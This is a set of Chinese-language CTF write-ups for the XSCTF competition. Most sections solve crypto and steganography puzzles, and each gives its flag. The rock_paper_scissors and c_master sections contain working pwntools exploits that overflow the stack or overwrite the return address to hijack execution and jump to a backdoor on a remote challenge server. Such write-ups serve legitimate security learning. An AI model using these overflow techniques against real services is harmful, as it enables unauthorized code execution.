

## gift_RSA 题解

### 思路

~~注意到~~您用私钥（按流程来说是公钥）加密，公钥（按流程来说是私钥）公之于众：
$$
ed \equiv 1 \,(\text{mod} \,\varphi(n) )
$$
$e$ 和 $d$ **互为**模 $\varphi(n)$ 意义下的逆元，因此公私这个概念是**相对**的．

于是代码中的 `e` 其实就已经是私钥了，直接解密即可．

### 代码

```python
from Crypto.Util.number import *
from secret import flag

'''
m = bytes_to_long(flag)
p = getStrongPrime(512)
q = getStrongPrime(512)
n = p*q
e = 0x10001
phi = (p-1)*(q-1)
d = inverse(e, phi)
gift = pow(m, d, n)
print(f'n = {n}')
print(f'gift = {gift}')
'''

n = 130440460982994054886194132893343627339035187428107218807321147405620338019874355591446417761513664225266160038818394605319887375239391287230478660163653875242501357695986002630460984513202850115668909532480905521208688225215737924902179053646260998230998190491472420237789646660909155287180241747552560215117

gift = 44036549032562248382682022800700872356499366761892236792447591596664499865604669855744690854360939082917175165565199000408965931210082233109686848459850428016737476624525455409019711542678368419364411036613979498284492060998121701989232698779962405921949163953624713959841997664118682769289019562394455997308

e = 0x10001

m = pow(gift, e, n)

flag = long_to_bytes(m)

print(flag)
```

### 答案

`XSCTF{H3re_i5_@_Gif7_f0r_y0u_From_Euler:)))))!}`

## 凯撒子撒子凯视眈眈 题解

~~shiiikaaashiiikaaa要被洗脑力~~

### 思路

可以看出加密过程就是对 `flag` 的每个字符进行如下操作：

1. 若为字母 (`string.ascii_letters`)，将该字母的ASCII值加上 `offset`；

2. 否则不变（`_` 和 `@`）．

每次操作后都将 `offset` 的值取反（只有 $\pm 1$ 两种值）

上面的操作都是可逆的，并且逆向操作很容易，于是只需逆向操作即可．

### 代码

```python
import string
# from secret import flag
'''
# ぬん！
def s_hi_ka(text):
    offset = 1
    enc = ''
    for w in text:
        if w in string.ascii_letters:
            enc += chr(ord(w) + offset)
        else:
            enc += w
        offset *= -1
    return enc

with open("shikaed_flag.txt", "w+") as shika:
    shika.write(s_hi_ka(flag))
'''

def ka_s_hi(text):
    offset = -1
    enc = ''
    for w in text:
        if w in string.ascii_letters:
            enc += chr(ord(w) + offset)
        else:
            enc += w
        offset *= -1
    return enc

FLAG = ka_s_hi('YRDSG{L@J_T@_M0JP_ONLN_MPJ0_L0PNP0_RIH_S@M!_U@O!!!}')
print(FLAG)
```

### 答案

`XSCTF{K@I_S@_N0KO_NOKO_NOK0_K0OOO0_SHI_T@N!_T@N!!!}`

## Baby_xor 题解

### 思路

加密过程其实就是用 `cipher = flag ^ cycle(key)`，而我们知道异或是对称加密的，即 `flag = cipher ^ cycle(key)`．

但是我们没 `key` 怎么办，我们只知道 `cipher` ... 吗？我们其实还知道 `flag` 的格式是 `XSCTF{...}` ~~（CTF特色）~~，即 `flag` 的前 6 个字符和最后一个字符．

根据 `cycle(key) = cipher ^ flag`，我们就能知道 `key` 的前六个字符．

那 `key` 的最后一个字符怎么办？欸👆🤓，~~注意到~~ `flag` 有 49 个字符，刚好是 7 的倍数，所以 `key` 的最后一个字符就是 `'}' ^ '\x19'`

### 代码

```python
from itertools import cycle

'''
flag = b"XSCTF{??????????????????????????????????????????}"
len(flag) = 49
key = b"???????"
len(key) = 7
cipher = bytes(x ^ y for x, y in zip(flag, cycle(key))) # cycle() 产生循环迭代器
print(cipher)
'''

cipher = b'672:/\x1a\n^\x10.!\x07P\x1d1\x10\x19]6\x12\x10Z\x16\x051+\x14\x101P\x1d[Y>\x10\x06W.]\x07%EOEPOH@\x19'

guess_key = b'ndqnia' # guesskey(前6位) = cipher(前6位) ^ 'XSCTF{'
for i in range(256): # 这里我给大脑偷懒(bushi)，暴力枚举key最后一位，以匹配解密后最后一位是不是'}'
    flag = bytes(x ^ y for x, y in zip(cipher, cycle(guess_key + chr(i).encode())))
    if flag.startswith(b"XSCTF{") and flag.endswith(b"}"):
        print("Found the key:", guess_key)
        print("Flag:", flag)
```

### 答案

`XSCTF{n0t_On1y_th3_st4rt_But_4l50_th3_3nD!!!!!!!}`

## guess_number2

### 思路

下载apk文件并打开．~~这...是逆向吗...?~~

简单的二分法猜数字

### 答案

`flag{354685775276487354}`

## なんで春日影やったの！ 题解

~~为什么要演奏春日影！~~

### 思路

首先有两个WAV文件：`春日影.wav`，`phone.wav`．

比较好入手的是 `phone.wav`，一串拨号音．

众所周知，电话机的每个按键都在相应的行和列上，而每行每列的声音频率各不相同，行音和列音叠加就是该按键发出的声音．（DTMF）

那可不可以反过来，根据某一按键的声音频率，反推出这个按键所处的行和列，进而得知是哪个键（0-9, *, #）？

当然可以，这个方法就是傅里叶变换：将声波分解成若干个正弦波．

我们可以使用dtmf2num这个工具来将拨号音转换成一个数字组合：

`7355608`



~~Bomb has been planted.~~

很容易想到这应该是个 key，那就只能是 `春日影.wav` 的事情了．

~~注意到~~ `春日影.wav` 是 WAV，对这种音频的隐写很容易想到用 DeepSound 工具解密：


是个网页，点进去：


~~😭😭😭😭😭😭~~

### 答案

`XSCTF{HarUh1_kage}`

## 艾伦走路人 题解

### 思路

```txt
Where are you now? Atlantis. Under the sea. Under the sea. Where are you now? Another dream. The monster's running wild inside of me. I'm faded. I'm faded. So lost, I'm faded. I'm faded. So lost, I'm faded.    Where are you now? Atlantis. Under the sea. Under the sea. Where are you now? Another dream. The monster's running wild inside of me. I'm faded. I'm faded. So lost, I'm faded. I'm faded. So lost, I'm faded.

Wiesf are!ypu opw@ Atlbotjs/ Vndes thf!seb/!Vnefr!tif sfa.!Xhere bsf zov oox@!Boouhfr!esean/ Tif npostfr's!sunojnh xjme!intjdf!pf!ne/ I'm!gadfd/ J'n!gbeed/!Sp motu,!I'm fbeee. I(n fbded.!To losu-!I(n!fbdfe/!! !Xiese arf!you npw@!Bumaouit/ Vnefs!thf teb/!Vodes!the!sfb.!Whfrf!arf!yov nox?!Anptifr!dseam. Uhf!mpostes(s ruonjog!xjld!iosjef pg me.!I(n gbded/!I(m!gaefd.!Sp mptt,!I'n!gbeee. I'm faded. So lost, I'm faded.
```

~~注意到~~明文和密文之间的差异仅仅只有一些字符被替换．

~~停！放大，放大，再放大！快看！~~**所有**替换后的字符相比替换前的字符在 ASCII 码上仅仅是 +1．

欸👆🤓，没替换就是 0，替换就是 1，信息这不就来了吗（

### 代码

```python
from Crypto.Util.number import *
A = "Where are you now? Atlantis. Under the sea. Under the sea. Where are you now? Another dream. The monster's running wild inside of me. I'm faded. I'm faded. So lost, I'm faded. I'm faded. So lost, I'm faded.    Where are you now? Atlantis. Under the sea. Under the sea. Where are you now? Another dream. The monster's running wild inside of me. I'm faded. I'm faded. So lost, I'm faded. I'm faded. So lost, I'm faded."
B = "Wiesf are!ypu opw@ Atlbotjs/ Vndes thf!seb/!Vnefr!tif sfa.!Xhere bsf zov oox@!Boouhfr!esean/ Tif npostfr's!sunojnh xjme!intjdf!pf!ne/ I'm!gadfd/ J'n!gbeed/!Sp motu,!I'm fbeee. I(n fbded.!To losu-!I(n!fbdfe/!! !Xiese arf!you npw@!Bumaouit/ Vnefs!thf teb/!Vodes!the!sfb.!Whfrf!arf!yov nox?!Anptifr!dseam. Uhf!mpostes(s ruonjog!xjld!iosjef pg me.!I(n gbded/!I(m!gaefd.!Sp mptt,!I'n!gbeee. I'm faded. So lost, I'm faded."

for x, y in zip(list(A), list(B)):
  print(ord(y) - ord(x), end = '')
print('')

# 上面打印出来的01串
b_str = "01011000010100110100001101010100010001100111101101011001001100000111010101011111010101110011001101110010001100110101111100110111011010000110010101011111001101010110100000110100011001000011000001110111010111110111010000110000010111110110110101111001010111110011000101101001011001100100010100101101010000010110110001100001011011100101011101100001011011000110101101100101011100100111110100000000000000000000000000000000"
print(long_to_bytes(int(b_str, 2))) # 二进制解读str转int，int转bytes
```

### 答案

`XSCTF{Y0u_W3r3_7he_5h4d0w_t0_my_1ifE-AlanWalker}`

## Easy_congruence 题解

### 思路

分析代码，得知
$$
mg \equiv c \,(\text{mod}\,p)
$$
~~物体的重力在模p意义下与光速相等．~~

这是个线性同余方程，要想求解 $m$ ，可以考虑两边乘上 $g$ 的逆元．

But！$g$ 的逆元不一定存在！逆元存在的条件是 $\text{gcd}(g, p) =1$．

~~经检验，~~ $\text{gcd}(g, p) \ne 1$，该咋办？这里我们用一种方法可以回避这个问题：将同余方程两边同除以$\text{gcd}(g, p)$．

~~经检验，~~ $\text{gcd}(g, p) \,|\, c$，于是得到
$$
 m \cdot \dfrac{g}{\text{gcd}(g, p)} \equiv \dfrac{c}{\text{gcd}(g, p)} \,(\text{mod} \, \dfrac{p}{\text{gcd}(g, p)})
$$
这下就 $\text{gcd}(\dfrac{g}{\text{gcd}(g, p)}, \dfrac{p}{\text{gcd}(g, p)}) =1$ 啦，两边乘逆元得
$$
m \equiv \dfrac{c}{\text{gcd}(g, p)} \cdot \left(\dfrac{g}{\text{gcd}(g, p)}\right)^{-1}\,(\text{mod} \, \dfrac{p}{\text{gcd}(g, p)})
$$

### 代码

```python
from Crypto.Util.number import *
import gmpy2
# from secret import flag

# m = bytes_to_long(flag)
p = 10453494189896814393489082401798067658149446733396819562864863864546212967979882859223572465368952108706223229855398759198028181181112373274325597469810991
g = 9232525983054729206798795323103994881466871254409162769478260108293334381919547345560776320223556367674557075231517532178126540033249822348773494136177921
# c = 0
# for i in range(m):
#     c = (c + g) % p
# print(f'{c = }')
c = 8886193310067666634125506832267082757853820097857444927164754043468885469055206104670212428406260567513675590416958026784669265723231129616766608308131367

g, p, c = g // gmpy2.gcd(g, p), p // gmpy2.gcd(g, p), c // gmpy2.gcd(g, p) # 可使用拓展欧几里得算法求逆

# print(c % gmpy2.gcd(g, p))  # 经检验(bushi)
g_inv = gmpy2.invert(g, p)    # g'逆
m = (c * g_inv) % p           # m
print(long_to_bytes(m))
```

### 答案

`XSCTF{Ext3nded_Eucl1de4n_a1gOrithm_1s_50_eleg4nt.}`

## 恶魔的语言 题解

### 思路

`ng bo ng sa sii sa ng sii sii leu cai b leu e sii f cai cai ng f cai jau sa leng cai ng ng f leu b leu e sa leng cai cai ng f cai cai sa sa leu e cai a leu bo leu f cai ng ng f leu sii leu jau sa sii leu c leu ng leu sa cai sii cai d`

根据题意，这是一段温州话的发音．

网上查阅资料发现，这些两个字母及以上的词都是温州话相应数字的发音，并且~~注意到~~一个字母的只有a-f，很容易联想到十六进制．

### 代码

```python
from Crypto.Util.number import *

with open("devil's word.txt", 'r') as f:
    data = f.read().strip().split(' ') # 以空格为间隔提取词

table = {'leng': '0', 'lia': '2', 'sa': '3', 'sii': '4', 'ng': '5', 'leu': '6', 'cai': '7', 'bo': '8', 'jau': '9', 'a': 'a', 'b': 'b', 'c': 'c', 'd': 'd', 'e': 'e', 'f': 'f'} # 单表替换

print(long_to_bytes(int(''.join([table[n] for n in data]), 16))) # 拼接成ctr，以16进制方式解读成int，int转bytes
```

### 答案

`XSCTF{nOw_y0u_kn0w_w3nzhou_di4lect}`

## rock_paper_scissors 题解

### 思路

显然含有 `gets()` 危险函数，触发条件是 `v10 > 5`，即得分为 `6`．

~~注意到~~存在后门函数 `final()`，并且 checksec 发现没开 PIE，地址就是`0x4012E3`

~~注意到~~程序输出含有像 `当前得分：1` 这样的格式，于是我们直接不断发送比如 `石头`，直到接受到 `当前得分：6` 退出循环，发送 payload，实现栈溢出，劫持执行流．

### exp

```python
from pwn import *
io = remote("43.248.97.213", 30666)
# io = process('./rock_paper_scissors')

io.recv()
for _ in range(30):       # 运气应该不会这么背吧...
    io.sendline('石头')
    if b'6' in io.recv():
        break

payload = b'a' * 0x30 + b'b' * 0x8 + p64(0x4012E3) # v5: rbp-30h，rbp占8字节，final()地址
io.sendline(payload)
io.interactive()
```

### 答案

`XSCTF{1bab71b8-117f-4dea-a047-340b72101d7b}`

## c_master 题解

### 思路

程序提供了五种操作，最引人注目的莫过于 `read()` 和对 `base` 的偏移操作．

其中 `read(0, &v6[v4], 8uLL)` 只读入8个字节，覆盖不到 `rbp` 的位置．

但~~注意到~~ `v6` 数组下标存在变量 `v4`，并且 `v4` 的值还可以受用户输入控制，这为覆盖 ret 提供空间．我们只需让 `v4` 偏移三次 8 个字节，就可以从 ret 的地址开始读入，实现溢出．（`char v6[8]; [rbp-10h]`，`10(hex) = 16(dec)`，`rbp`占8个字节）

~~注意到~~存在后门函数 `backdoor()`．更令人欣喜的是，程序没开 PIE 保护，能直接得到 `backdoor()` 地址．

### exp

```python
from pwn import *

# io = process('./c_master')
io = remote('43.248.97.213', 30676)

pwn_addr = 0x4012C3

for _ in range(3):
    io.sendline(b'base+=8;')
    io.sendline(b'read(0,base,0x8);')
    io.sendline(p64(pwn_addr))    # pwn!
    io.interactive()
```

### 答案

`XSCTF{p1e4se_bec0me_4_c_m4ster_x5c7f}`

## Running~ 题解

### 思路

发现是段 Javascript 代码．运行结果：

```txt
__   __   _____    _____   _______   ______     __                              _____           _   _     _           _            ______                  __                  _  _     _     _    ___                              __             ____    _        __                                _     _                  __   
    \ \ / /  / ____|  / ____| |__   __| |  ____|   / /     /\                      |_   _|         (_) | |   (_)         | |          |  ____|                /_ |                | || |   | |   (_)  / _ \                            / _|           / __ \  | |      / _|                              | |   (_)                 \ \  
    \ V /  | (___   | |         | |    | |__     | |     /  \     _ __              | |    _ __    _  | |_   _    __ _  | |          | |__    __  __  _ __    | |   ___    _ __  | || |_  | |_   _  | | | |  _ __              ___   | |_           | |  | | | |__   | |_   _   _   ___    ___    __ _  | |_   _    ___    _ __    | | 
   > <    \___ \  | |         | |    |  __|   / /     / /\ \   | '_ \             | |   | '_ \  | | | __| | |  / _` | | |          |  __|   \ \/ / | '_ \   | |  / _ \  | '__| |__   _| | __| | | | | | | | '_ \            / _ \  |  _|          | |  | | | '_ \  |  _| | | | | / __|  / __|  / _` | | __| | |  / _ \  | '_ \    \ \
  / . \   ____) | | |____     | |    | |      \ \    / ____ \  | | | |           _| |_  | | | | | | | |_  | | | (_| | | |          | |____   >  <  | |_) |  | | | (_) | | |       | |   | |_  | | | |_| | | | | |          | (_) | | |            | |__| | | |_) | | |   | |_| | \__ \ | (__  | (_| | | |_  | | | (_) | | | | |   / / 
    /_/ \_\ |_____/   \_____|    |_|    |_|       | |  /_/    \_\ |_| |_|          |_____| |_| |_| |_|  \__| |_|  \__,_| |_|          |______| /_/\_\ | .__/   |_|  \___/  |_|       |_|    \__| |_|  \___/  |_| |_|           \___/  |_|             \____/  |_.__/  |_|    \__,_| |___/  \___|  \__,_|  \__| |_|  \___/  |_| |_|  | | 
                                                \_\                     ______                                             ______                  | |                                                             ______                 ______                                                                                /_/  
                                                                       |______|                                           |______|                 |_|                                                            |______|               |______|                                                                                    ```
```

~~什么鬼~~，等等，眯着眼睛能隐约看到 XSCTF 字样，直接看有点难看．

欸👆🤓，我有一计：


~~停！缩小！缩小！再缩小！快看，每一个字符都看得清清楚楚！~~

小心 CTF 特色：`a->4, l->1, O<->0<->o`

### 答案

`XSCTF{An_Initial_Exp1or4ti0n_of_Obfuscation}`
